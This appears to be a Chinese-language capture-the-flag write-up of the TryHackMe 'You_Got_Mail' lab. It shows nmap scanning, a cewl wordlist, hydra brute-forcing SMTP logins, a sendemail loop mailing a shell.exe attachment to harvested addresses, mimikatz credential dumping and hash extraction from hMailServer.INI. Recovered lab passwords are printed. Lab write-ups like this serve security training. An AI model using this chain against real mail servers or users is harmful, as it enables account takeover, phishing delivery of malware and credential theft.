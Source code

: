 ```yaml
---
title: '[thm] You_Got_Mail'
date: 2025-02-14 19:37 +0800
categories: [hack,TryHackMe]
tags: []
---
```


## information

```
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-14 19:39 CST
Initiating Ping Scan at 19:39
Scanning 10.10.196.213 [4 ports]
Completed Ping Scan at 19:39, 0.41s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 19:39
Completed Parallel DNS resolution of 1 host. at 19:39, 0.03s elapsed
DNS resolution of 1 IPs took 0.03s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 19:39
Scanning 10.10.196.213 [18 ports]
Discovered open port 3389/tcp on 10.10.196.213
Discovered open port 135/tcp on 10.10.196.213
Discovered open port 139/tcp on 10.10.196.213
Discovered open port 587/tcp on 10.10.196.213
Discovered open port 25/tcp on 10.10.196.213
Discovered open port 110/tcp on 10.10.196.213
Discovered open port 445/tcp on 10.10.196.213
Discovered open port 49666/tcp on 10.10.196.213
Discovered open port 143/tcp on 10.10.196.213
Discovered open port 49664/tcp on 10.10.196.213
Discovered open port 49667/tcp on 10.10.196.213
Discovered open port 5985/tcp on 10.10.196.213
Discovered open port 47001/tcp on 10.10.196.213
Discovered open port 49665/tcp on 10.10.196.213
Discovered open port 49674/tcp on 10.10.196.213
Discovered open port 49670/tcp on 10.10.196.213
Discovered open port 49672/tcp on 10.10.196.213
Discovered open port 49668/tcp on 10.10.196.213
Completed SYN Stealth Scan at 19:39, 0.70s elapsed (18 total ports)
Nmap scan report for 10.10.196.213
Host is up, received timestamp-reply ttl 127 (0.33s latency).
Scanned at 2025-02-14 19:39:11 CST for 1s

PORT      STATE SERVICE       REASON
25/tcp    open  smtp          syn-ack ttl 127
110/tcp   open  pop3          syn-ack ttl 127
135/tcp   open  msrpc         syn-ack ttl 127
139/tcp   open  netbios-ssn   syn-ack ttl 127
143/tcp   open  imap          syn-ack ttl 127
445/tcp   open  microsoft-ds  syn-ack ttl 127
587/tcp   open  submission    syn-ack ttl 127
3389/tcp  open  ms-wbt-server syn-ack ttl 127
5985/tcp  open  wsman         syn-ack ttl 127
47001/tcp open  winrm         syn-ack ttl 127
49664/tcp open  unknown       syn-ack ttl 127
49665/tcp open  unknown       syn-ack ttl 127
49666/tcp open  unknown       syn-ack ttl 127
49667/tcp open  unknown       syn-ack ttl 127
49668/tcp open  unknown       syn-ack ttl 127
49670/tcp open  unknown       syn-ack ttl 127
49672/tcp open  unknown       syn-ack ttl 127
49674/tcp open  unknown       syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.35 seconds
           Raw packets sent: 22 (944B) | Rcvd: 19 (832B)
```

## user1

![alt text](<../assets/img/2025-02-14-[thm] You_Got_Mail.assets/image.png>)

浏览网页可以发现几个邮箱账号，尝试爆破。

` cewl --lowercase https://brownbrick.co > dic.txt` 生成字典。

```
┌──(root㉿bamuwe)-[~/M]
└─# hydra -L usernames -P dic.txt `cat IP ` smtp
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-14 19:34:00
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1134 login tries (l:6/p:189), ~71 tries per task
[DATA] attacking smtp://10.10.196.213:25/
[STATUS] 676.00 tries/min, 676 tries in 00:01h, 458 to do in 00:01h, 16 active
[25][smtp] host: 10.10.196.213   login: lhedvig@brownbrick.co   password: bricks
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-14 19:35:28
```

user1**lhedvig@brownbrick.co:bricks**

## user2

通过前面获得的账户给其他用户投递邮件

```sh
for i in cat $(cat usernames );do sendemail -f 'lhedvig@brownbrick.co' -t "$i" -u 'test' -m 'test' -a shell.exe -s 10.10.42.35 -xu 'lhedvig@brownbrick.co' -xp 'bricks';done
Feb 15 19:20:55 bamuwe sendemail[7201]: ERROR => Can't use improperly formatted email address: cat
Feb 15 19:20:59 bamuwe sendemail[7202]: Email was sent successfully!
Feb 15 19:21:02 bamuwe sendemail[7203]: Email was sent successfully!
Feb 15 19:21:06 bamuwe sendemail[7204]: Email was sent successfully!
Feb 15 19:21:10 bamuwe sendemail[7205]: Email was sent successfully!
Feb 15 19:21:14 bamuwe sendemail[7206]: Email was sent successfully!
Feb 15 19:21:18 bamuwe sendemail[7207]: Email was sent successfully!
```

![alt text](<../assets/img/2025-02-14-[thm] You_Got_Mail.assets/image-1.png>)

获得了一个shell
接下来上传mimikatz抓取密码
![alt text](<../assets/img/2025-02-14-[thm] You_Got_Mail.assets/image-3.png>)

sekurlsa::logonpasswords

![alt text](<../assets/img/2025-02-14-[thm] You_Got_Mail.assets/image-2.png>)

user2**wrohit:superstar**

## system 

查看C:\Program Files (x86)\hMailServer\Bin>下的hMailServer.INI可以获得密码hash

![alt text](<../assets/img/2025-02-14-[thm] You_Got_Mail.assets/image-4.png>)

system**administartor:password**

## conclusion

- 第一次做关于邮件的靶机，挺有意思的
- mimikatz是个好东西hah
